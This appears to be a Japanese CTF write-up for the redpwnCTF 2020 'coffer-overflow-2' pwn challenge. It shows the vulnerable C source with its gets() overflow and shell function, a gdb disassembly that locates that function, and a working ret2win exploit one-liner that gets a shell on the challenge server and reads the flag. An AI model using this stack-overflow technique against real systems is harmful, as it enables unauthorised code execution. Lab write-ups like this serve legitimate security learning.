 # coffer-overflow-2:pwn:304pts
You'll have to jump to a function now!?  
nc 2020.redpwnc.tf 31908  
[coffer-overflow-2](coffer-overflow-2)　　　　[coffer-overflow-2.c](coffer-overflow-2.c)  

# Solution
coffer-overflow-2とソースが与えられる。  
ソースは以下のようになっている。  
```c:coffer-overflow-2.c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);
}

void binFunction() {
  system("/bin/sh");
}
```
binFunctionに飛ばしてやればよいのでgdbで以下のようにアドレスを調査する。  
```bash
$ gdb coffer-overflow-2
~~~
gdb-peda$ disass binFunction
Dump of assembler code for function binFunction:
   0x00000000004006e6 <+0>:     push   rbp
   0x00000000004006e7 <+1>:     mov    rbp,rsp
   0x00000000004006ea <+4>:     lea    rdi,[rip+0x112]        # 0x400803
   0x00000000004006f1 <+11>:    mov    eax,0x0
   0x00000000004006f6 <+16>:    call   0x400570 <system@plt>
   0x00000000004006fb <+21>:    nop
   0x00000000004006fc <+22>:    pop    rbp
   0x00000000004006fd <+23>:    ret
End of assembler dump.
```
0x00000000004006e6とわかったのでnameをオーバーフローさせてretの飛び先を書き換える。  
以下でシェルが得られた。  
lsしてflag.txtをcatする。  
```bash
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\xe6\x06\x40\x00\x00\x00\x00\x00"; cat) | nc 2020.redpwnc.tf 31908
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

## flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}